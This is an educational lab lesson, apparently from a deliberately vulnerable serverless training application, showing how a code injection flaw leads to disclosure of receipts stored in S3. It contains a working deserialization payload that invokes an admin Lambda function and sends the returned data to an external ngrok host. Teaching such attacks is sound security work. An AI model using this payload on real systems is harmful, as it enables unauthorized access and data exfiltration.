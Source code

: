 # LESSON #3: Sensitive Information Disclosure

An attacker can leverage the [code injection vulnerability](../LESSONS/LESSON_01.md) to invoke an admin functionality that will disclose all the receipts from the S3 bucket.

Sending the following payload will invoke an admin function that will pack all the receipts within the specified year and month and will created a signed url to download them.
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ADMIN-GET-RECEIPT\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"year\": \"2018\", \"month\": \"12\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"http://0c971764.ngrok.io/lol?data=\"+JSON.stringify(d));}); }()"}
```

As a result: 

![alt signed-url](https://i.imgur.com/yMkJhKi.png)


Pasting the url in the browser will download the receipts from the S3 bucket:

![alt receipts](https://i.imgur.com/OXDQC9K.png)

- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)
